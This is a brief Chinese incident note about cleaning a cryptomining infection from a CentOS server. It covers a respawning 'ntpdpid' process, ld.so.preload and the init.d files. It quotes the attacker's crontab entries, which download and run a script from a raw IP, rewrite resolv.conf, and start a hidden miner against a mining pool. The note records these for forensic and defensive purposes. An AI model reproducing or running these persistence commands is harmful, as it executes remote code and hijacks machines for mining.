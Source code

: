 # CPU拔高

## 处理

top -H

找到进程号

kill后无效，短时间重启

## 询问

矿机

- 检查启动路径
- ssh目录

### 进程列表

```shell
# 基础信息
PID USER      PR  NI    VIRT    RES    SHR S %CPU %MEM     TIME+ COMMAND                                                                                                 7616 root      20   0  540196   5464   2592 R 99.3  0.3  62:37.71 ntpdpid
# kill 一次
PID USER      PR  NI    VIRT    RES    SHR S %CPU %MEM     TIME+ COMMAND                                                                                                   15902 root      20   0  540132   3380   2556 R 99.0  0.2   3:45.31 ntpdpid 
```

### 启动列表

```shell
[root@VM_0_12_centos ~]# crontab -l
*/5 * * * * pkill tail >/dev/null 2>&1
*/3 * * * * pkill masscan >/dev/null 2>&1
0 */3 * * * chattr -iau /etc/resolv.conf ; echo "nameserver 8.8.8.8" > /etc/resolv.conf
1 */3 * * * curl -m 5 -s -O http://139.9.77.204:26573/test/check.sh && chmod +x check.sh && sh check.sh ; rm -rf check.sh >/dev/null 2>&1
# https://anonpasta.rocks/raw/atucewakep
```

### 文件

```shell
etc/文件

etc下还有个ld.so.preload的文件

etc/init.d
rc.d下面找到很多创建很临时的文件
```

短短几天，，，刚处理就看到又有进程达到100%，不过这次root密码比较复杂，对方采用的是admin张账户

```shell
[root@VM_0_12_centos tmp]# crontab -l -u admin
45 * * * * /home/admin/.dhpcd -o de.minexmr.com:4444 -B >/dev/null 2>/dev/null
```

